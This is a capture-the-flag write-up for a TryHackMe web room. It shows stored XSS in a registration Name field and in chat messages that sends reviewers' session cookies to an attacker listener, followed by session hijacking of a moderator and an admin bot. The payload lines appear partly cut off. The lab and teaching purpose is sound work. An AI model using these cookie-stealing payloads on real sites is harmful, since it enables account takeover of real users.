## Overview

**What's Your Name?** ([TryHackMe](https://tryhackme.com/room/whatsyourname)) is a WAP-themed social network where the registration form's `Name` field turns out to be the whole box: it's stored unsanitized and rendered back to whoever reviews the pending account, first a moderator, then an admin bot. Two rounds of the same stored-XSS-into-cookie-theft trick hand over both flags — no privilege escalation exploit chain beyond "steal the reviewer's session and log in as them."

---

## Enumeration

`http://worldwap.thm/public/html/` is a plain landing page for the WorldWAP social network — a big stock photo and an "Exciting News!" blurb, nothing interesting in the markup:


There's a registration form, so we made a throwaway account to see where it leads:



```text
Username: wapuser
Password: password123
```

Registering doesn't drop us straight into an account — it bounces to `/public/html/login.php`, which isn't really a login page at all, just a message with a decoy form under it:



> You need to visit login.worldwap.thm to login once you register successfully

So the actual login lives on a separate virtual host. Hitting `http://login.worldwap.thm/` bare gets an empty page — no form, nothing rendered — so I fuzzed it to see what's actually there:

```text
% dirsearch -u http://login.worldwap.thm

Target: http://login.worldwap.thm/

[12:35:50] Starting:
[12:36:05] 200 -    5KB - /admin.py
[12:36:59] 200 -  639B  - /assets/
[12:37:08] 302 -    0B  - /chat.php  ->  login.php
[12:37:12] 200 -    0B  - /db.php
[12:37:26] 200 -  960B  - /login.php
[12:37:26] 302 -    0B  - /logout.php  ->  login.php
[12:37:26] 200 -    0B  - /logs.txt
[12:37:34] 301 -  329B  - /phpmyadmin  ->  http://login.worldwap.thm/phpmyadmin/
[12:37:38] 302 -    0B  - /profile.php  ->  login.php
[12:37:42] 200 -   96B  - /setup.php
```

(trimmed the usual pile of `403` `.htaccess*` probe noise — none of it returned anything)

`admin.py`, `db.php`, `logs.txt`, `phpmyadmin` — a lot of surface here, but everything that isn't `login.php` either 302s back to the login gate or returns empty, so none of it is reachable pre-auth. `login.php` itself is a real form this time:



Trying `wapuser` / `123qwe123qwe` there just errors out:



The registration flow already told us why: *"You can now pre-register! Your details will be reviewed by the site moderator."* The account exists but isn't active until someone approves it. That's the angle — we can't log in yet, but something with more privilege than us is about to open our registration and look at it.

---

## Foothold — stored XSS in the Name field, moderator cookie

Every field on the registration form gets checked client-side except one. Username, password, and email all have visible frontend validation; `Name` doesn't — worth checking first regardless of whether it's also validated server-side, since it's the one field that isn't even trying. If the moderator's review page renders that field back unescaped, we get script execution in the moderator's session the moment they open our pending registration.

Registered again, this time with an `onerror` payload in the Name field instead of an actual name:





```html
:8000/?c='+document.cookie">
```

Spun up a listener and waited for the moderator to open the review queue:

```bash
python3 -m http.server 8000
```

```text
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.112.183.76 - - [23/Jul/2026 20:42:03] "GET /?c=PHPSESSID=jih5f2quu2kogsnudfn5jvktki HTTP/1.1" 200 -
```

A few seconds and the moderator's `PHPSESSID` shows up in the access log. Dropped it into the browser in place of our own cookie and reloaded — we're the moderator now, no login required:



There's a "post a thought" form on the moderator dashboard, so before moving on I poked at it as a possible second stored-XSS surface — new content getting rendered to other users is exactly the shape we just exploited once already:



It never goes anywhere. Submitting just pops a JS alert:



```javascript
function addPost(){
    alert("Sharing your thoughts feature is currently disabled.");
}
```

Checked Burp's proxy history to be sure, and there's no request at all — the whole thing is short-circuited in the frontend, `functions.php` or whatever backs it never gets touched. Dead end, parked it, and went back to what actually got us in: the moderator session on `login.worldwap.thm`.

> **Flag 1** (moderator dashboard): `THM{...}`
{: .prompt-info }


---

## Privilege escalation — the same trick against the admin bot

The moderator account has a Chat page, and one contact stands out from the regular users:



An "Admin Bot" that's always online is a scripted reviewer, same as the moderator was for registrations — except this time it's presumably reading chat messages instead of pending accounts. There's also a reset control in case the bot gets stuck:



> "Incase the bot is unresponsive, you can reset it as well" — handy, since the first attempt didn't need it, but good to know it's there if a payload gets consumed without a response.
{: .prompt-tip }

Same idea as the registration Name field: if the bot renders whatever we send it, we can steal its cookie the same way. Sent it another `onerror` payload, this time as a chat message:

```html
:8002/hit?c='+document.cookie">
```

```bash
python3 -m http.server 8002
```

```text
Serving HTTP on 0.0.0.0 port 8002 (http://0.0.0.0:8002/) ...
10.112.183.76 - - [23/Jul/2026 21:10:41] code 404, message File not found
10.112.183.76 - - [23/Jul/2026 21:10:41] "GET /hit?c=PHPSESSID=nb83mj76qss7clr4clrttms78g HTTP/1.1" 404 -
```


Now an admin session, and the second flag is sitting in the side panel:

> **Flag 2** (admin side panel): `THM{...}`
{: .prompt-info }



---

## Conclusion

One vulnerability class, exploited twice against two different reviewers:

1. **Unsanitized `Name` field, rendered to the moderator** — every other registration field is validated client-side; `Name` isn't, and the review page renders it without escaping, so an `` payload runs in the moderator's browser the moment they open the queue.
2. **Session hijacking via cookie theft** — no HttpOnly on the session cookie means `document.cookie` is readable from injected JS, and the app doesn't bind sessions to anything beyond the cookie value, so pasting `PHPSESSID` into our own browser is a full account takeover.
3. **Same flaw, second surface, against a bot** — the chat feature that feeds messages to "Admin Bot" has the identical rendering bug, so the same payload technique that got moderator access gets admin access too.

### Tools used

| Stage | Tools |
|-------|-------|
| Recon | browser dev tools |
| Content discovery | `dirsearch` |
| Traffic analysis | Burp Suite (Proxy history) |
| Exploitation | stored XSS (``), `python3 -m http.server` |
